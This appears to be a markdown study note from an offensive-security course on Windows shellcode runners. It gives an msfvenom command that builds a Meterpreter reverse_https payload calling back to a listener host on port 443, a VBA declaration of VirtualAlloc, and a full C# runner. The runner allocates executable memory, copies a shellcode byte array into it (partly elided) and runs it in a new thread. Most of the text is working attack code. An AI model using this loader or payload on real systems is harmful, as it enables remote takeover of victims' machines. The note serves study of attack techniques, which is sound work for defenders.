



## All About Shellcode

# Shellcode Basic
shellcode runner ⇒ a piece of code that executes shellcode in memory

We will use VirtualAlloc to allocate unmanaged memory that is writable, readable, and executable. We'll then copy the shellcode into the newly allocated memory with RtlMoveMemory, and create a new execution thread in the process through CreateThread to execute the shellcode.

**Function prototype for VirtualAlloc**
```
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```
This API accepts four arguments. The first, lpAddress, is the memory allocation address. If we leave this set to "0", the API will choose the location. The dwSize argument indicates the size of the allocation. Finally, flAllocationType and flProtect indicate the allocation type and the memory protections, which we will come back to.

**Function declaration for VirtualAlloc**
```
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
```

# Shellcode in VBA
Generate shellcode in vbapplication format
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication
```


# Shellcode Runner in C#
The full code of C# shellcode runner
```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[630] {
  0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
  ...
  0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5 };

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
Before compiling this project, we must set the CPU architecture to x64 since we are using 64-bit shellcode.


In the Configuration Manager, we choose <New...> from the Platform drop down menu and accept the new platform as x64
